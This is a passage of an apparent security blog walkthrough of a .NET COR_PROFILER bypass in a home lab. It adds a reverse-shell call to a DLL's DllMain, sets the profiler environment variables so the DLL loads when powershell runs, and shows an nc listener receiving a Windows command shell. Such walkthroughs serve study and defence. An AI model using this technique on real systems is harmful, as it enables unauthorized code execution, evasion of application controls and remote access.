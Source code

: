 The program already created `dllmain.cpp` for me. I’ll just add in an include for `revshell`, and a call under `DLL_PROCESS_ATTACH`:

```

// dllmain.cpp : Defines the entry point for the DLL application.
#include "stdafx.h"
#include "revshell.h"

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
		revshell();
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

```

I’ll build the project, and find the dll where it reports:

![1552439657920](https://0xdfimages.gitlab.io/img/1552439657920.png)

## Run It

### Custom Dll

Now I’ll run the bypass. All I need to do is set the environment variables, and then run an exe that’s managed. IppSec showed `tzsync`. `powershell` works too.

I’ll start a `nc` listener on my Kali box, and then run the following from a cmd terminal on my Windows VM:

```

C:\Users\0xdf\Desktop>set "COR_ENABLE_PROFILING=1"
C:\Users\0xdf\Desktop>set "COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}"
C:\Users\0xdf\Desktop>set "COR_PROFILER_PATH=C:\users\0xdf\desktop\revshell.dll"
C:\Users\0xdf\Desktop>powershell

```

`powershell` just hangs, but my listener connects:

```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.1.1.153.
Ncat: Connection from 10.1.1.153:54719.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\0xdf\Desktop>

```